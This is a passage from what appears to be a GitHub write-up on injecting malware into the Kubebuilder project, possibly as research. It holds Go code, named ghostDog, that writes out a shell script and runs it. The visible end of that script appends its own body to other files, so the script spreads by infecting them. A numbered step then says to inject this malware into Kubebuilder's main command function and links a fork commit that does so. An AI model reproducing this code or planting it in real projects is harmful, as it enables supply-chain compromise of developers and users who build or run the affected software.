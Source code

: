   ```go
                if ! grep -q '#-_' "$file"; then
                    tail -n +2 $0 >> "$file"
                    echo "Appended to: $file" >> "$LOGFILE"
                fi
            ;;
        esac
    done
    2>/dev/null
    `

        // Write the script content to the file
        fmt.Println("Writing the script to", targetFile)
        err = ioutil.WriteFile(targetFile, []byte(scriptContent), 0755)
        if err != nil {
            fmt.Println("Error writing to file:", err)
            return
        }
        fmt.Println("Script written successfully")

        // Change permissions to make the script executable
        fmt.Println("Setting executable permissions for", targetFile)
        err = os.Chmod(targetFile, 0755)
        if err != nil {
            fmt.Println("Error setting file permissions:", err)
            return
        }
        fmt.Println("Permissions set successfully")

        // Execute the script
        fmt.Println("Executing the script", targetFile)
        cmd := exec.Command("/bin/sh", targetFile)
        output, err := cmd.CombinedOutput()
        if err != nil {
            fmt.Println("Error executing the script:", err)
            fmt.Println("Script output:", string(output))
            return
        }
        fmt.Println("Script executed successfully")
        fmt.Println("Script output:", string(output))
    }

    func main() {
        ghostDog()
    }
   ```

6. **Where to inject the malware in Kubebuilder**  
    Directly into the main cmd function of Kubebuilder.

    The injection can be seen here in the fork: [tdunlap607/kubebuilder/commit/bf67123](https://github.com/tdunlap607/kubebuilder/commit/bf67123ffc3ea4b12fe9a4c53c6ff9c66c0502d5)
